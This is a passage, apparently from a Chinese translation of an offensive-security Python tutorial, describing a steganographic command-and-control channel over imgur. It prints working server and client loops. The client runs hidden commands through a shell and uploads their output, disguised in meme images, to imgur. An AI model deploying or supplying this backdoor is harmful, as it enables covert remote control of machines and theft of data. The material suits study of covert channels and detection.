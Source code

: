 ```py
```

服务器将等待，直到它看到消息；它通过使用`while`循环来实现这一点，并检查图像日期时间是否晚于我们启动它时保存的日期时间。一旦它看到有一个新的图像，它将下载它并提取信息。然后检查消息，看它是否是客户机就绪消息；如果是，则显示`uuid`客户端和`os`类型，并提示用户输入：

```py
loop = True
while loop:
    time.sleep(5)
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict = ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['status'] == "ready":
            print "Client connected:\n"
            print "Client UUID:" + client_dict['uuid']
            print "Client OS:" + client_dict['os']
```

用户输入命令后，使用 base32 对其进行编码，以避免破坏我们的消息字符串。然后将其隐藏在随机图像中，并上传到 imgur。客户端处于等待此消息的 while 循环中。这个循环的开始检查日期时间的方式与我们的服务器相同；如果它看到一个新的图像，它会检查是否使用`uuid`将其发送到此机器，如果是，它会提取消息，将其转换为友好的格式，`Popen`将使用`shlex,`接受该格式，然后使用`Popen`运行该命令。然后，它等待命令的输出，然后将其隐藏在随机图像中并上载到 imgur：

```py
loop = True
while loop:

    time.sleep(5) 
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict =  ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['uuid'] == client_uuid:
            command = base64.b32decode(client_dict['command'])

            if command == "quit":
                sys.exit(0)

            args = shlex.split(command)
            p = subprocess.Popen(args, stdout=subprocess.PIPE, shell=True)
            (output, err) = p.communicate()
            p_status = p.wait()

            steg_path = StegoText.hide_message(random.choice (client.default_memes()).link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'response', 'response':'" + str(base64.b32encode(output)) + "'}",  "Imgur1.png", True)
            uploaded = client.upload_from_path(steg_path)
            client.album_add_images(a[0].id, uploaded['id'])
            last_message_datetime = uploaded['datetime']
```

服务器只需获取新图像，提取隐藏输出，并将其显示给用户即可。然后它给出一个新的提示并等待下一个命令。就这样,；这是一种通过隐写术传递命令和控制数据的非常简单的方法。